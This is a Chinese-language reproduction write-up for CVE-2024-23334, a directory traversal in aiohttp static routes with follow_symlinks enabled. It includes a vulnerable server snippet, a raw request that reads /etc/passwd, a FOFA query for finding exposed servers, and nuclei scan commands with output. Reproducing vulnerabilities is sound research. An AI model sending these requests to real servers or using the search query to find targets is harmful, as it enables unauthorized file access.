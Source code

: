 # aiohttp 介绍

aiohttp 是一个基于 asyncio 实现的 Python HTTP 客户端和服务器框架。它提供了异步的 HTTP 客户端和服务器功能，能够处理高并发的网络请求。

# 影响版本

1.0.5<=aiohttp<3.9.2

# CVE-2024-23334 漏洞简介

使用 aiohttp 作为 Web 服务器并配置静态路由时，需要指定静态文件的根路径。此外，选项“follow_symlinks”可用于确定是否遵循静态根目录之外的符号链接。当“follow_symlinks”设置为 True 时，不会进行验证来检查给定的文件路径是否在根目录中。这可能导致目录遍历漏洞，导致未经授权访问系统上的任意文件，即使符号链接不存在也是如此。即，应用程序仅因安装代码而易受攻击，例如：

app.router.add_routes([
web.static("/static", "static/", follow_symlinks=True), # Remove follow_symlinks to avoid the vulnerability
])

# 漏洞复现

安装 aiohttp 库

```py
pip install aiohttp==3.9.1
```

```py
from aiohttp import web
async def index(request):
    return web.Response(text="Hello, World!")

app = web.Application()
app.router.add_routes([
    web.static("/static", "static/", follow_symlinks=True),
])
app.router.add_get('/', index)

if __name__ == '__main__':
    web.run_app(app, host='127.0.0.1', port=8080)
```

发送的数据包如下：

```
GET /static/../../../../etc/passwd HTTP/1.1
Host: 192.168.136.130:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

为了保持通用性，可以删掉大部分字段

```
GET /static/../../../../etc/passwd HTTP/1.1
Host: 192.168.136.130:8080
```

# POC

## 用 fofa 去查找

```sh
body="/static" && header="aiohttp"
```

经过测试得知，网上没有在野利用

## 本地搭建环境

```sh
nuclei -u 192.168.136.130:8080 -t C:\Users\20942\nuclei-templates\http\cves\2024\CVE-2024-23334.yaml
```

经过测试官方通用性不行

```sh
nuclei -u 192.168.136.130:8080 -t ./CVE-2024-23334.yaml
```

```output
[INF] Running httpx on input host
[INF] Found 1 URL from httpx
[ts-CVE-2024-23334] [http] [high] http://192.168.136.130:8080/static/../../../../../../etc/passwd
```
